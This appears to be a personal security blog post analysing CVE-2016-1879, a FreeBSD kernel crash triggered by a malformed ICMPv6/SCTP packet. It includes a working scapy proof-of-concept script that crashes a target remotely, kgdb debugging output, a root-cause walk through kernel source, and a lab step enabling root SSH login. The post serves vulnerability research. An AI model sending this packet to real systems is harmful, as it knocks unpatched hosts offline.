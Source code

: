 ```yaml
---
layout:	   post
title:		 CVE-2016-1879 FreeBSD kernel crash
author:		 wooy0ung
tags:		   cve
category:  exploit
---
```



>[Analysis Environment]  
>system: FreeBSD 10.1 release amd64  
>attack machine: ubuntu 16.04.3 amd64  
<!-- more -->


You can get more information in this website:   
[FreeBSD Remote DoS Exploit](http://blog.ptsecurity.com/2016/01/severe-vulnerabilities-detected-in.html)  

reference to compile bsd kernel:
[]()

promise your bsd kernel can dump core after crashing
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x001.png)

open your bsd ssh permission  
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x002.png)  

change it into
```
$ vi /etc/ssh/sshd_config
PermitRootLogin yes
```

get mac & ipv6，-I argument means network card of your ubuntu
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x003.png)

poc.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
 
import argparse
from scapy.all import *
 
def get_args():
    parser = argparse.ArgumentParser(description='#' * 78, epilog='#' * 78)
    parser.add_argument("-m", "--dst_mac", type=str, help="FreeBSD mac address")
    parser.add_argument("-i", "--dst_ipv6", type=str, help="FreeBSD IPv6 address")
    parser.add_argument("-I", "--iface", type=str, help="Iface")
    options = parser.parse_args()
 
    if options.dst_mac is None or options.dst_ipv6 is None:
        parser.print_help()
        exit()
 
    return options
 
if __name__ == '__main__':
    options = get_args()
 
    sendp(Ether(dst=options.dst_mac) / IPv6(dst=options.dst_ipv6) / ICMPv6DestUnreach() / IPv6(nh=132,
                                                                                               src=options.dst_ipv6,
                                                                                               dst='fe80::230:56ff:fea6:648c'),
          iface=options.iface)
```

execute poc.py bsd will crash，and crash files generated in /var/crash
```
$ python poc.py -m 00:0c:29:b9:1f:0b -i fe80::20c:29ff:feb9:1f0b -I ens33
.
Sent 1 packets.
```

ICMPv6DestUnreach()：send a error icmp package
IPv6(nh=132,...)：nexthread=132
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x004.png)

cd to /usr/obj/usr/src/sys/MYKERNEL/，and launch kgdb to debug crash core
```
$ kgdb kernel.debug /var/crash/vmcore.1 
```
input "bt" to get stack backtrace
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x005.png)

open /usr/src/sys/kern/uipc_mbuf.c
```
/*
 * Copy data from an mbuf chain starting "off" bytes from the beginning,
 * continuing for "len" bytes, into the indicated buffer.
 */
void
m_copydata(const struct mbuf *m, int off, int len, caddr_t cp)
{
  u_int count;

  KASSERT(off >= 0, ("m_copydata, negative off %d", off));
  KASSERT(len >= 0, ("m_copydata, negative len %d", len));
  while (off > 0) {
    KASSERT(m != NULL, ("m_copydata, offset > size of mbuf chain"));//第一个m的assert
    if (off < m->m_len)
      break;
    off -= m->m_len;
    m = m->m_next;
  }
  while (len > 0) { //884行
    KASSERT(m != NULL, ("m_copydata, length > size of mbuf chain")); //885行
        //这里以下不重要
        //这里以下不重要
    count = min(m->m_len - off, len);
    bcopy(mtod(m, caddr_t) + off, cp, count);
    len -= count;
    cp += count;
    off = 0;
    m = m->m_next;
  }
}
```
kernel stop by "while(len > 0) { KASSERT(m != NULL...)..."，maybe m=m->m_next <-- 0

backtrace to last function
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x006.png)

open /usr/src/sys/netinet6/sctp6_usrreq.c
```
void sctp6_ctlinput(int cmd, struct sockaddr *pktdst, void *d)
{
  struct sctphdr sh;
  struct ip6ctlparam *ip6cp = NULL;
  uint32_t vrf_id;

  vrf_id = SCTP_DEFAULT_VRFID;

  if (pktdst->sa_family != AF_INET6 ||
      pktdst->sa_len != sizeof(struct sockaddr_in6))
    return;

  if ((unsigned)cmd >= PRC_NCMDS)
    return;
  if (PRC_IS_REDIRECT(cmd)) {
    d = NULL;
  } else if (inet6ctlerrmap[cmd] == 0) {
    return;
  }
  /* if the parameter is from icmp6, decode it. */
  if (d != NULL) {
    ip6cp = (struct ip6ctlparam *)d;
  } else {
    ip6cp = (struct ip6ctlparam *)NULL;
  }

  if (ip6cp) {
    /*
     * XXX: We assume that when IPV6 is non NULL, M and OFF are
     * valid.
     */
    /* check if we can safely examine src and dst ports */
    struct sctp_inpcb *inp = NULL;
    struct sctp_tcb *stcb = NULL;
    struct sctp_nets *net = NULL;
    struct sockaddr_in6 final;

    if (ip6cp->ip6c_m == NULL)
      return;

    bzero(&sh, sizeof(sh));
    bzero(&final, sizeof(final));
    inp = NULL;
    net = NULL;
    m_copydata(ip6cp->ip6c_m, ip6cp->ip6c_off, sizeof(sh),
        (caddr_t)&sh);
    
        ...
        后面不重要
```
type of "d" change by "ip6cp = (struct ip6ctlparam *)d"

get "ip6cp"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x007.png)

we can confirm "m->m_next=NULL"，and "len=88"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x008.png)

because of triggering KASSERT，kernel would crash